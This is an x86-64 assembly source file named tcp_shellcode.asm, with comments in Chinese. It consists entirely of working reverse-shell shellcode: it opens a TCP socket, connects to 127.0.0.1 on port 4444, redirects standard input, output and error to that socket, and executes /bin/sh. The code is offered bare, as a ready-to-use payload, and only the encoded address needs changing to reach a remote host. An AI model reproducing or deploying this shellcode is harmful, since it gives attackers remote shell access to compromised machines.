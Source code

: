 tcp_shellcode.asm
```asm
section .text
global _start

_start:
    ; 创建socket
    xor rax, rax
    mov al, 0x29          ; syscall: socket
    xor rdi, rdi          ; domain: AF_INET (2)
    mov dil, 0x2
    xor rsi, rsi          ; type: SOCK_STREAM (1)
    mov sil, 0x1
    xor rdx, rdx          ; protocol: IPPROTO_IP (0)
    syscall

    ; 保存socket文件描述符
    xchg rdi, rax

    ; 连接到服务器
    push rdx
    mov rbx, 0x0100007f   ; IP: 127.0.0.1 (localhost)
    push rbx
    mov rbx, 0x5c110002   ; Port: 4444 (0x5c11), AF_INET (2)
    push rbx
    mov rsi, rsp
    mov al, 0x2a          ; syscall: connect
    mov dl, 0x10          ; sockaddr length
    syscall

    ; 重定向stdin, stdout, stderr到socket
    xor rsi, rsi
    mov al, 0x21          ; syscall: dup2
    syscall
    inc rsi
    mov al, 0x21
    syscall
    inc rsi
    mov al, 0x21
    syscall

    ; 执行/bin/sh
    xor rax, rax
    push rax
    mov rbx, 0x68732f6e69622f2f
    push rbx
    mov rdi, rsp
    push rax
    push rdi
    mov rsi, rsp
    xor rdx, rdx
    mov al, 0x3b          ; syscall: execve
    syscall
```
